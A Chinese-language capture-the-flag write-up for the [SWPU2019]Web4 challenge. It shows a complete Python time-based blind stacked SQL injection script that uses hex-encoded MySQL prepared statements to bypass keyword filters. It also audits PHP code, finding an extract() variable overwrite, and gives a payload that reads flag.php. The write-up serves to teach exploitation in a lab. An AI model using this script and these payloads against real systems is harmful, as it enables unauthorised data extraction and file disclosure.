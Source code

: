 ```yaml
---
title: '[SWPU2019]Web4'
date: 2024-09-08 19:55:26
tags: 
      - sql注入
      - json
categories: 刷题笔记
---
```


### [SWPU2019]Web4

打开页面发现一个登录框，输入账号和密码后没有反应

我们f12打开页面源码，发现js代码

![image-20240908201027925](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409082010079.png)

js主要功能是将username和password以json格式然后发给index.php?r=Login/Login。

我们进行抓包

<!--more-->

我们不难发现username中加入单引号会报错，但在单引号后加上分号就不会了，这个情况我们考虑堆叠注入

![image-20240908201554679](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409082015802.png)

由于过滤了select,if,sleep,substr等大多数注入常见的单词，但是注入又不得不使用其中的某些单词。那么在这里我们就可以用16进制+mysql预处理来绕过。

预制语句的SQL语法基于三个SQL语句：

```
set @a="xxx"
prepare stmt_name from preparable_stmt;
execute stmt_name [using @var_name [, @var_name] ...];
{deallocate | drop} prepare stmt_name;
```

![image-20240908202346119](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409082023210.png)

我们找个脚本来进行提交

```
#author: c1e4r
import requests
import json
import time

def main():
    #题目地址
    url = '''http://568215bc-57ff-4663-a8d9-808ecfb00f7f.node3.buuoj.cn/index.php?r=Login/Login'''
    #注入payload
    payloads = "asd';set @a=0x{0};prepare ctftest from @a;execute ctftest-- -"
    flag = ''
    for i in range(1,30):
        #查询payload
        payload = "select if(ascii(substr((select flag from flag),{0},1))={1},sleep(3),1)"
        for j in range(0,128):
            #将构造好的payload进行16进制转码和json转码
            datas = {'username':payloads.format(str_to_hex(payload.format(i,j))),'password':'test213'}
            data = json.dumps(datas)
            times = time.time()
            res = requests.post(url = url, data = data)
            if time.time() - times >= 3:
                flag = flag + chr(j)
                print(flag)
                break

def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

if __name__ == '__main__':
    main()

```

前端应用逻辑的基础在controller文件夹下面，而其他文件都是基于basecontroller.php，所以我们打开basecontroller.php文件进行代码审计

```
 /Controller/BaseController.php
....
public function loadView($viewName ='', $viewData = [])
{
   $this->viewPath = BASE_PATH . "/View/{$viewName}.php";
   if(file_exists($this->viewPath))
   {
      extract($viewData);
      include $this->viewPath;
   }
}

```

`extract` 传入 `viewdata` 数组造成变量覆盖，发现利用 `loadView` 方法的并且第二个元素可控的地方只有 `UserController.php`

```
/Controller/UserController.php
public function actionIndex()
{
    $listData = $_REQUEST;
    $this->loadView('userIndex',$listData);
}

```

$listData是从REQUEST提取出来的，完全可控。而其对应的/View/userIndex.php中存在一个文件读取

```
.......
                if(!isset($img_file)) {
                    $img_file = '/../favicon.ico';
                }
                $img_dir = dirname(__FILE__) . $img_file;
                $img_base64 = imgToBase64($img_dir);
                echo '<img src="' . $img_base64 . '">';       //图片形式展示
                ?></div>
        </div>
    </div>
</div>
</body>
</html>
<?php
function imgToBase64($img_file) {
                return $img_base64; //返回图片的base64
}
?>

```

这里的$img_file的值可利用前面的逻辑进行覆盖，传入img_file=./../flag.php即可,而有英文下面的路由控制

```
// 路由控制跳转至控制器
if(!empty($_REQUEST['r']))
{
    $r = explode('/', $_REQUEST['r']);
    list($controller,$action) = $r;
    $controller = "{$controller}Controller";
    $action = "action{$action}";


    if(class_exists($controller))
    {
        if(method_exists($controller,$action))
        {
            //
        }
        else
        {
            $action = "actionIndex";
        }
    }
    else
    {
        $controller = "LoginController";
        $action = "actionIndex";
    }
    $data = call_user_func(array( (new $controller), $action));
} else {
    header("Location:index.php?r=Login/Index");
}
```

上面可以知道我们传入的路由 r-User/Index

我们构造payload

GET：index.php?r=User/Index

POST: img_file=/../flag.php

![image-20240908204651640](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409082046709.png)

我们发现图片url里含有个base64解码

得到flag

![image-20240908204740143](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409082047177.png)
